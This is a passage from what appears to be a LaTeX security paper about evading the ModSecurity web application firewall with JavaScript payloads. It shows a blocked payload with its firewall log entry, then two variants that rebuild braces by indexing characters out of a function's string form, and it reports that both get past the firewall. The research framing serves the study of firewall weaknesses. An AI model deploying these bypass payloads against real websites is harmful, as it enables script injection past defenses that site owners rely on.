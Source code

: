 
\subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using string substitution strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, the similar payload in Listing~\ref{lst:stringreplaceblocked} was being blocked by the modsecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} payload, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput${2+2}`')();</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

On using a string substitution strategy like mentioned in \ref{sec:stringreplace}, a payload in the form of

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using square bracket notation, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

successfully evaded the firewall.

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using dot notation, label={lst:stringreplacepass}]
[].constructor.constructor('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

\subsubsection{Forcing unicode normalization}
\label{sec:forcedunicodenorm}
As stated before, a payload containing the \verb|prompt()| function:

